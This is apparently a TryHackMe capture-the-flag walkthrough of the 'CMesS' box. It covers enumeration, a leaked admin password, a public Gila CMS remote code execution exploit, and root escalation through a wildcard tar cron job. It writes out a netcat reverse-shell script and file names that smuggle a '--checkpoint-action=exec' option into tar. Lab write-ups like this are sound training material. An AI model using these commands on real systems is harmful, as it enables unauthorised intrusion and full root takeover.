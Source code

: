 # THM - CMesS

#### Ip: 10.10.246.242
#### Name: CMesS
#### Difficulty: Medium

----------------------------------------------------------------------

![cmess.png](../assets/cmess_assets/cmess.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -p-  --min-rate 10000 10.10.246.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:08 CDT
Nmap scan report for 10.10.246.242
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -sC -sV 10.10.246.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:09 CDT
Nmap scan report for 10.10.246.242
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```

Navigating to the site we find a default Gila CMS landing page:

![site.png](../assets/cmess_assets/site.png)

Per the instructions/ hint, it looks like we'll need to do some fuzzing here. We can do that with wfuzz:

![fuzz.png](../assets/cmess_assets/fuzz.png)

Cool, looks like we've also got a dev.cmess.thm, lets add that to `/etc/hosts` as well. 

Checking out the page we find a chat between user andre and the support team, and included in the chat is a password!

![dev.png](../assets/cmess_assets/dev.png)

Navigating to http://cmess.thm/admin we can use these credentials to login to andre's account:

![admin.png](../assets/cmess_assets/admin.png)

### Exploitation

At the bottom of the page we find the version number for Gila: `Gila CMS version 1.10.9`

Searching for public exploits I came across https://www.exploit-db.com/exploits/51569 which looks promising. 

Taking a look at the code it looks like we're exploiting the .htaccess mentioned in the dev notes. Lets give this a shot.

![code.png](../assets/cmess_assets/code.png)

(Note: I had to update the GSESSIONID field in the script)

Lets fire off the script using:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ python gila_1.10.9_rce.py
```

And we can catch a shell back as www-data:

![shell.png](../assets/cmess_assets/shell.png)

Trying to access andre's home direcotory we get an access denied error:

```text
www-data@cmess:/var/www/html/tmp$ cd /home
cd /home
www-data@cmess:/home$ ls
ls
andre
www-data@cmess:/home$ cd andre
cd andre
bash: cd: andre: Permission denied
```

Looks like we'll need to look around a bit more.

Checking out the `/opt` folder we find a backup file with with andre's credentials:

```text
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```

We can use this password to switch users to andre and grab the user.txt flag:

![user_flag.png](../assets/cmess_assets/user_flag.png)

### Privilege Escalation

Taking a look at `/etc/crontab` to find any cronjobs, we find a job run by root that uses tar on everything/* in `/home/andre/backup`

```text
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Because this job is using a wildcard, we should be able to exploit this. 

Lets create a bash script in the `/backup` directory with:

```text
andre@cmess:~/backup$ cat > /home/andre/backup/shell << EOF
> #!/bin/bash
> rm /tmp/test
> mkfifo /tmp/test
> cat /tmp/test|/bin/sh -i 2>&1|nc 10.6.61.45 8888 >/tmp/test
> EOF
```
Then run:

```text
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh shell"
```

After two minutes (or less) we should catch a shell in our netcat listener and be able to grab the root.txt flag:

![root_flag.png](../assets/cmess_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------



